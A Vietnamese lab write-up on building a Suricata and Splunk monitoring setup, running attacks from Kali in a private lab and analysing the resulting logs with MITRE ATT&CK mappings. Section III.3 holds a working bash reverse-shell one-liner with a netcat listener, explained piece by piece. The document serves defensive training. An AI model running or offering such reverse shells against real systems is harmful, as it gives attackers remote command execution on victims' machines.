

# Lab 5: Thiết lập hệ thống giám sát mạng bằng Suricata và Splunk để phát hiện các hành vi bất thường trong lưu lượng mạng

# I. Mục tiêu

- Mục tiêu của lab này là mô phỏng hệ thống SOC giám sát – phát hiện – ghi nhận – phân tích các hành vi bất thường/xâm nhập trong mạng nội bộ bằng Suricata và Splunk. Thực hiện các hành vi tấn công mạng như quét cổng dịch vụ, HTTP Burst, reverse shell,…

# II. Sơ đồ mạng, môi trường và công cụ



- Suricata là một công cụ an ninh mạng mã nguồn mở, được phát triển bởi Open Information Security Foundation (OISF). Công cụ này hoạt động đồng thời như một hệ thống phát hiện xâm nhập (IDS), ngăn chặn xâm nhập (IPS) và giám sát an ninh mạng (NSM)
- Rules là tập hợp các chỉ dẫn để Suricata biết cần tìm kiếm cái gì và phải làm gì khi phát hiện thấy dấu hiệu đó.
  Một rule bao gồm hai phần chính:
  - Rule Header: Xác định hành động (alert, drop, pass, reject), giao thức (TCP, UDP, ICMP...), địa chỉ IP (nguồn/đích) và cổng.
  - Rule Options: Chứa nội dung cụ thể để đối khớp (như từ khóa `content`, `msg` để hiển thị cảnh báo, `sid` để định danh luật).

Emerging Threats (ET): Bộ luật phổ biến nhất, có cả phiên bản miễn phí (ET Open) và trả phí (ET Pro).

## 1. Cấu hình trên Splunk

### Tạo index riêng cho Suricata

Splunk Web:

- **Settings** → **Indexes** → **New Index**
  - Index name: `suricata`

### Cấu hình parse JSON + timestamp cho sourcetype Suricata

- Tạo file:
  ```bash
  sudo nano /opt/splunk/etc/system/local/props.conf
  ```
- Dán:
  ```
  [suricata:eve]
  INDEXED_EXTRACTIONS = json
  KV_MODE = none
  TIME_PREFIX = \"timestamp\"\s*:\s*\"
  TIME_FORMAT = %Y-%m-%dT%H:%M:%S.%6N%z
  MAX_TIMESTAMP_LOOKAHEAD = 40
  TRUNCATE = 0
  ```
- Mục tiêu của bước này
  - Tự động tách field từ JSON (vd: `event_type`, `src_ip`, `dest_ip`, `alert.signature`…)
  - Parse đúng timestamp theo trường `"timestamp"` trong EVE JSON
  - Tránh log bị:
    - sai giờ / lệch giờ
    - dồn hết về thời điểm ingest (thời điểm Splunk nhận) thay vì thời điểm sự kiện xảy ra
    - không có field (khó viết query/detection)
    - bị cắt mất dòng JSON dài
- Restart Splunk:
  ```bash
  sudo /opt/splunk/bin/splunk restart
  ```

## 2. Cài và cấu hình Suricata trên Ubuntu victim

### Bước 1: Cài Suricata + jq

```bash
sudo apt update
sudo apt install -y suricata jq
sudo systemctl enable --now suricata
```

### Bước 2: Chọn đúng interface để bắt gói

- Sửa file mặc định:

  ```bash
  sudo nano /etc/default/suricata
  ```

- Tìm `IFACE=` và đặt đúng:

  ```bash
  IFACE=ens33
  ```

- Restart:

  ```bash
  sudo systemctl restart suricata
  ```

- Nếu không chạy được có thể phải sửa cả interface trong `/etc/suricata/suricata.yaml`
  Tìm phần `af-packet:` (hoặc `pcap:`), sửa interface cho đúng với máy
  ```yaml
  af-packet: -interface:ens33
  ```

### Bước 3: Bật EVE JSON và các loại event (flow/http/dns/tls/alert)

EVE JSON là định dạng log “chính” của Suricata.

- Mở config:

  ```bash
  sudo nano /etc/suricata/suricata.yaml
  ```

- Tìm phần:

  ```yaml
  outputs:
  -eve-log:
  enabled:yes
  filetype:regular
  filename:/var/log/suricata/eve.json
  ```

- Trong `eve-log`, đảm bảo có bật (hoặc thêm) các types cơ bản: `alert`, `http` , `dns` , `tls`, `flow`

  ```yaml
  types:
  -alert
  -http
  -dns
  -tls
  -flow
  ```

- Restart Suricata:

  ```bash
  sudo systemctl restart suricata
  ```

- Kiểm tra file log có sinh JSON:

  ```bash
  sudo tail -n 5 /var/log/suricata/eve.json | jq .
  ```

### Bước 4: Cài ruleset (ET Open)

```bash
sudo apt install -y suricata-update
sudo suricata-update #cập nhật bộ
sudo systemctl restart suricata
```

Kiểm tra rules đã load:

```bash
sudo journalctl -u suricata --no-pager -n 50
```

### Bước 5: Monitor file eve.json từ UF

- Tạo inputs.conf

  ```bash
  sudo mkdir -p /opt/splunkforwarder/etc/system/local
  sudo nano /opt/splunkforwarder/etc/system/local/inputs.conf
  ```

- Dán:

  ```
  [monitor:///var/log/suricata/eve.json]
  disabled =false
  index = suricata
  sourcetype = suricata:eve
  ```

- Restart UF:

  ```bash
  sudo /opt/splunkforwarder/bin/splunk restart
  ```

### Bước 6: Đảm bảo UF đọc được file log

- Kiểm tra quyền file:

  ```bash
  ls -l /var/log/suricata/eve.json
  ```

- Nếu UF không đọc được, cách nhanh gọn là thêm quyền đọc cho group `splunk` hoặc add user splunk vào group `suricata`/`adm`. Ví dụ:

  ```bash
  sudo usermod -aG adm splunk
  sudo systemctl restart suricata
  sudo /opt/splunkforwarder/bin/splunk restart
  ```

# III. Thực hiện tấn công mạng từ máy Kali

## 1. Quét cổng bằng nmap

```powershell
nmap -sS -T4 -p- 192.168.60.40
```

  

→ Tìm thấy cổng 22 đang mở

## 2. Thực hiện Nikto Scan, coi máy Ubuntu victim là một Web Server.

- **Chuẩn bị:** Đảm bảo máy Ubuntu Victim (192.168.60.40) đang chạy một Web Server Apache.
- **Dùng Nikto**
  Lệnh này sẽ quét server và tạo ra hàng trăm request chứa các mẫu tấn công đã biết.
  `powershell
nikto -h http://192.168.60.40
`

  

- Chỉ trong 11 giây mà nikto đã bắn tới 8102 gói tin HTTP vào máy chủ ubuntu

## 3. Thực hiện Reverse Shell

- **Mục tiêu:** Mô phỏng việc kẻ tấn công dụ nạn nhân chạy mã độc, khiến máy nạn nhân kết nối ngược về máy tấn công, cho phép kẻ tấn công điều khiển dòng lệnh.
- **Trên máy Kali Attacker**
  Mở một cổng lắng nghe để chờ kết nối từ nạn nhân.
  ```powershell
  # Lắng nghe trên cổng 4444
  nc -nvlp 4444
  ```
- **Trên máy Ubuntu victim**
  Trong thực tế, bước này xảy ra khi người dùng click vào file độc hại hoặc bị khai thác lỗ hổng web. Trong Lab, chúng ta sẽ tự chạy lệnh này để mô phỏng.
- Mở terminal trên Ubuntu và chạy lệnh sau:

  ```powershell
  bash -i >& /dev/tcp/192.168.60.10/4444 0>&1
  ```

  - `bash -i`
    - **`bash`**: Gọi chương trình Bash, là trình thông dịch lệnh mặc định trên Linux.
    - **`i` (interactive)**: Chế độ "tương tác". Bình thường, khi bạn chạy một script, bash chạy xong sẽ tắt. Cờ `i` bắt buộc bash phải giữ phiên làm việc mở, hiển thị dấu nhắc lệnh và chờ người dùng nhập lệnh tiếp theo.
  - `/dev/tcp/192.168.60.10/4444`
    - Trên Linux, "mọi thứ đều là file". Bash có một tính năng đặc biệt cho phép nó coi các kết nối mạng như là các file.
    - Đường dẫn này bảo Bash hãy **mở một kết nối TCP** đến địa chỉ IP `192.168.60.10` tại cổng `4444`.
  - `>&` (Chuyển hướng đầu ra)
    - Trong Linux có 3 luồng dữ liệu chính:
    - Stdin (0): Đầu vào (bàn phím).
    - Stdout (1): Đầu ra (màn hình).
    - Stderr (2): Lỗi (màn hình).
    - Ký tự `>&` có nghĩa là: Chuyển hướng **toàn bộ đầu ra** (bao gồm cả kết quả lệnh `stdout` và thông báo lỗi `stderr`) vào cái "file" kết nối mạng ở trên. Còn nếu là `1>` hoặc `>` thì chỉ chuyển hướng stdout.
    - **Kết quả:** Bất cứ gì hiện trên màn hình máy Ubuntu sẽ được gửi qua mạng về máy Kali.
  - `0>&1` (Chuyển hướng đầu vào)
    - **`0`**: Đại diện cho Stdin (đầu vào chuẩn).
    - **`>&1`**: Lấy Stdin gắn vào nơi mà Stdout đang trỏ tới.
    - Vì Stdout (ở bước 3) đã được nối tới máy Kali, nên lệnh này sẽ nối luôn Stdin tới máy Kali.
    - **Kết quả:** Bất cứ gì bạn gõ từ máy Kali sẽ được gửi qua mạng và "nhập" vào máy Ubuntu như thể bạn đang gõ bàn phím tại đó.

- **Quay lại máy Kali**
  Bạn sẽ thấy thông báo kết nối thành công. Thử gõ `ls` hoặc `whoami` trên Kali, bạn sẽ thấy kết quả trả về từ máy Ubuntu.

# IV. Phát hiện và phân tích log

## 1. Phát hiện scan cổng

- SPL: `index=suricata`

  

  → có rất nhiều log scan một ip nhưng nhiều cổng

- Raw log
  ```powershell
  {"timestamp":"2026-01-14T17:03:51.889486+0700","flow_id":447390627289119,"in_iface":"ens33","event_type":"flow","src_ip":"192.168.60.10","src_port":43068,"dest_ip":"192.168.60.40","dest_port":20226,"proto":"TCP","flow":{"pkts_toserver":1,"pkts_toclient":1,"bytes_toserver":60,"bytes_toclient":54,"start":"2026-01-14T17:02:49.825062+0700","end":"2026-01-14T17:02:49.825076+0700","age":0,"state":"closed","reason":"timeout","alerted":false},"tcp":{"tcp_flags":"16","tcp_flags_ts":"12","tcp_flags_tc":"14","syn":true,"rst":true,"ack":true,"state":"closed","ts_max_regions":1,"tc_max_regions":1}}
  ```
- Tóm tắt: tấn công reconnaissance scan nhiều cổng vào một ip.
- `timestamp`: 2026-01-14T17:03:51.889486+0700
  `time local`: 1/14/26 5:03:51.889 PM
- `dest_ip`: 192.168.60.40
- `source_ip`: 192.168.60.10
- `Severity`: low - đây mới là bước thăm dò, chưa xâm nhập thành công.
- Tiếp theo cần điều tra xem attacker với `ip=192.168.60.10` đã quét được cổng nào mở chưa và kiểm tra xem có xâm nhập thành công không.
- Mapping MITTRE ATT&CK
  - Discovery: Network Service Discovery - T1046
  - Reconnaissance: Active Scanning: Scanning IP Blocks - T1595.001

## 2. Phát hiện Nikto Scan


- Raw log
  ```powershell
  {"timestamp":"2026-01-14T21:43:29.866420+0700","flow_id":999495050042074,"in_iface":"ens33","event_type":"flow","src_ip":"192.168.60.10","src_port":54910,"dest_ip":"192.168.60.40","dest_port":80,"proto":"TCP","app_proto":"http","flow":{"pkts_toserver":19,"pkts_toclient":24,"bytes_toserver":4173,"bytes_toclient":18464,"start":"2026-01-14T21:42:19.298249+0700","end":"2026-01-14T21:42:19.331253+0700","age":0,"state":"closed","reason":"timeout","alerted":true},"tcp":{"tcp_flags":"1b","tcp_flags_ts":"1b","tcp_flags_tc":"1b","syn":true,"fin":true,"psh":true,"ack":true,"state":"closed","ts_max_regions":1,"tc_max_regions":1}}
  ```
- Tóm tắt: Hệ thống giám sát Suricata đã ghi nhận các kết nối mạng bất thường giữa máy `192.168.60.10` và máy chủ Web `192.168.60.40`. Đây là dấu hiệu của hành vi dò quét lỗ hổng web tự động bẵng công cụ Nikto.
- `timestamp`: 2026-01-14T21:43:28.869713+0700
  `Time local`: 1/14/26 9:43:28.869 PM
- `src_ip`: 192.168.60.10
  `src_port`: 54810
- `dest_ip`: 192.168.60.40
  `dest_port`: 80
- Dịch vụ bị tấn công: Port 80/TCP
- Các dấu hiệu chứng minh
  - Dấu hiệu 1: `alerted: true`
    - _Ý nghĩa:_ Điều này xác nhận rằng trong quá trình kết nối này diễn ra, Suricata đã phát hiện vi phạm và đã sinh ra một Alert. Đây là bằng chứng thép cho thấy đây không phải truy cập web thông thường.
  - Dấu hiệu 2: Thời gian tồn tại (`age: 0`)
    - Kết nối mở và đóng ngay lập tức. Người dùng lướt web bình thường sẽ giữ kết nối lâu hơn để tải ảnh, CSS, JS. Chỉ có Bot/Scanner mới hành động nhanh như vậy.
  - Dấu hiệu 3: `tcp_flags: 1b`
    - Cờ `1b` (Hex) tương ứng với `FIN, PSH, ACK, SYN`.
    - Sự xuất hiện của cả `SYN` (mở) và `FIN` (đóng) trong cùng một log flow ngắn xác nhận đây là một chu trình kết nối TCP hoàn chỉnh nhưng cực ngắn.
- Kết luận & Đánh giá tác động
  - Loại tấn công: Reconnaissance / Web Scanning.
  - Công cụ nghi ngờ: Nikto
  - Tác động:
    - Kẻ tấn công đã thực hiện kết nối thành công tới Web Server (`state: closed` nghĩa là kết nối đã hoàn tất.
    - Máy chủ Web đã phản hồi lại (`bytes_toclient: 18464` ~ 18KB dữ liệu trả về). Kẻ tấn công có thể đã thu thập được thông tin về phiên bản Server hoặc các file tồn tại.
- Khuyến nghị xử lý
  - Truy vết chéo: Sử dụng `flow_id: 999495050042074` để tìm log Alert tương ứng trong Splunk nhằm biết chính xác tên rule bị vi phạm
  - Kiểm tra Access Log: Đối chiếu thời gian `21:43:29` với log của Apache trên máy nạn nhân để xem kẻ tấn công đã dò trúng file nhạy cảm nào không, tìm mã phản hồi 200 OK.
  - Block IP `192.168.60.10` cần bị đưa vào Blacklist hoặc cách ly khỏi mạng ngay lập tức.
- MAPPING ATT&CK
  - Tactic: Reconnaissance
  - Technique: Active Scanning: Vulnerability Scanning
  - Id: T1595.002
  - Kẻ tấn công chủ động gửi gói tin để tìm điểm yếu, lỗi cấu hình hoặc phiên bản lỗi thời trên Web Server.

## 3. Phát hiện Reverse Shell


- raw log
  ```powershell
  {"timestamp":"2026-01-15T00:08:57.383070+0700","flow_id":2018804101003655,"in_iface":"ens33","event_type":"flow","src_ip":"192.168.60.40","src_port":50906,"dest_ip":"192.168.60.10","dest_port":4444,"proto":"TCP","app_proto":"failed","flow":{"pkts_toserver":21,"pkts_toclient":22,"bytes_toserver":1633,"bytes_toclient":1478,"start":"2026-01-14T23:53:19.011287+0700","end":"2026-01-15T00:07:50.110435+0700","age":871,"state":"closed","reason":"timeout","alerted":false},"tcp":{"tcp_flags":"1b","tcp_flags_ts":"1b","tcp_flags_tc":"1b","syn":true,"fin":true,"psh":true,"ack":true,"state":"closed","ts_max_regions":1,"tc_max_regions":1}}
  ```
- Tóm tắt: Vào lúc 23:53:19 ngày 14/01/2026, hệ thống giám sát mạng ghi nhận một kết nối bất thường khởi tạo từ máy chủ `192.168.60.40` đi ra máy trạm `192.168.60.10`. Kết nối này sử dụng cổng 4444 và duy trì trong 14 phút 31 giây.
  Dựa trên phân tích hành vi và giao thức, chúng tôi kết luận đây là một kết nối Reverse Shell thành công, cho phép kẻ tấn công thực thi lệnh từ xa trên máy chủ nạn nhân. Hệ thống IDS đã không phát hiện (False Negative) hành vi này dưới dạng Alert, mà chỉ ghi nhận dưới dạng Flow log.
- `timestamp`: 2026-01-15T00:08:57.383070+0700
  `time local`: 1/15/26 12:08:57.383 AM
- `app_proto`: `failed`
  Điều này chỉ ra rằng giao thức truyền tải không phải là các chuẩn thông thường (HTTP, SSH, DNS) mà Suricata có thể giải mã. Đây là đặc trưng của Raw TCP Shell (như Netcat hoặc Bash TCP), nơi dữ liệu chỉ là các dòng văn bản thô sơ gửi qua lại.
- `src_ip`: 192.168.60.40
  `src_port`: 50906
- `dest_ip`: 192.168.60.10
  `dest_port`: 4444
- Đánh giá rủi ro & Lỗ hổng giám sát
  - Trạng thái phát hiện: MISS.
    - Trường `"alerted": false` trong log cho thấy Suricata không kích hoạt bất kỳ rule nào cho hành vi này.
    - Nguyên nhân: Kẻ tấn công sử dụng lệnh `bash` hoặc `nc` thuần túy, không có malware signature cụ thể trong payload, hoặc cấu hình Rule chưa bao phủ việc chặn kết nối outbound tới cổng lạ.
  - Tác động: Kẻ tấn công đã có toàn quyền thực thi lệnh RCE với quyền của user chạy web service. Nếu kẻ tấn công leo quyền thành công trong 14 phút đó, toàn bộ máy chủ đã bị Compromised.

 Mapping MITRE ATT&CK

- Command and Control: Non-Application Layer Protocol - T1095
- Command and Control: Command and Scripting Interpreter: Unix Shell - T1059.004
- Khuyến nghị xử lý
  - Cách ly: Ngắt kết nối mạng của máy chủ `192.168.60.40` ngay lập tức để ngăn chặn hacker quay lại hoặc Lateral Movement.
  - Điều tra mở rộng:
    - Kiểm tra `history` của user `www-data` hoặc `root` trên máy Ubuntu để xem trong 14 phút đó hacker đã gõ những lệnh gì.
    - Kiểm tra xem hacker có tạo file mới hoặc user mới để duy trì quyền truy cập không.
  - Thiết lập Firewall
  - Viết thêm Rule Suricata: Cảnh báo bất kỳ kết nối TCP nào đi ra cổng 4444.
